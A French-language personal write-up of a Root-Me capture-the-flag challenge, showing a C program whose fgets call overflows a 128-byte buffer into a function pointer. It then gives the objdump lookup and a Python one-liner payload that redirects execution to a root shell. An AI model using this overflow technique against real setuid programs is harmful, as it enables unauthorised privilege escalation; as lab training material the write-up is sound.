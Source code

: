<script src="../../../js/password-protect.js"></script>

---
categorie: app-systeme
tags:
  - rootme
  - "#informatique/cyber"
---
# But : 

devenir root, pour acceder au .passwd 

# Le programme : 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}

void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}

void main()
{ 
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```

Cette fois ci c'est la fonction fgets() qui est utilisÃ©e, celle qui vÃ©rifie la quantitÃ© d'info qu'on donne

# MÃ©thode de rÃ©solution

on va donc utiliser un outil pour savoir l'adresse mÃ©moire de la fonction "shell" du programme

```
objdump -D ch15
```

![[Pasted image 20240406204042.png]]

je trouve l'information "08048516"

c'est de l'hexa que l'on converti en shellcode : 0x16 0x85 0x04 0x08

je vais donc executer un petit code python, qui me permet d'afficher 128 "a" suivi du shellcode haxa, puis qui utilise "cat" pour rester dans la commande

```
((python -c "print 'A'*128+'\x16\x85\x04\x08'") ; cat)  | ./ch15
```


![[Pasted image 20240406210611.png]]

au final Ã§a fonction car on peut injecter une adresse car il n'y a pas l'aslr